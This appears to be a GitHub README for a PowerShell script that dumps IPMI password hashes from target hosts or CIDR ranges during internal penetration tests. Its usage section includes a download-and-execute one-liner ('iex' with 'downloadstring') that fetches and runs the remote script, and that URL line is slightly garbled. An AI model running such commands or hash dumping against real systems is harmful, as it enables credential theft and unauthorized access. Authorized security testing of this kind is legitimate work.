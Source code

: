 ## About

Simple ported script to perform IPMI password hash dumping using PowerShell for internal engagements.
The script uses the default port however this can be changed using the `-Port` parameter.

CIDR ranges are also supported with a default user list for ease of use, single usernames or alternative user files can be specified with the `-Users` parameter.

## Usage

Invoke-Expression usage:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/H4rk3nz0/Invoke-IPMIDump/main/Invoke-IPMIDump.ps1')](https://raw.githubusercontent.com/The-Viper-One/Invoke-IPMIDump/main/Invoke-IPMIDump.ps1)

Invoke-IPMIDump -IP 10.10.1.1
```

Local usage:

```
. .\Invoke-IPMIDump.ps1

Invoke-IPMIDump -IP 10.10.1.1
```
